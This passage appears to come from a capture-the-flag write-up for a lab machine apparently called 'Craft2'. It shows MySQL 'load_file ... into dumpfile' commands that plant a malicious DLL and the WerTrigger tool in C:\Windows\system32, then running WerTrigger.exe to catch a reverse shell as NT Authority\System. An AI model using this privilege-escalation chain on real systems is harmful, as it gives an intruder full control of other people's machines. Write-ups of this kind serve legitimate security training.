 ```
select load_file('C:\\xampp\\htdocs\\phoneinfo.dll') into dumpfile 'C:\\Windows\\system32\\phoneinfo.dll';
select load_file('C:\\xampp\\htdocs\\Report.wer') into dumpfile 'C:\\Windows\\system32\\Report.wer';
select load_file('C:\\xampp\\htdocs\\WerTrigger.exe') into dumpfile 'C:\\Windows\\system32\\WerTrigger.exe';
```

![Craft216.png](/assets/images/Craft2/Craft216.png){: .center-aligned width="600px"}

After that we simply run WerTrigger.exe, and it executes the phoneinfo.dll with privileges, giving us a hit on our reverse shell. 

![Craft217.png](/assets/images/Craft2/Craft217.png){: .center-aligned width="600px"}

And we have `NT Authority\System`. 
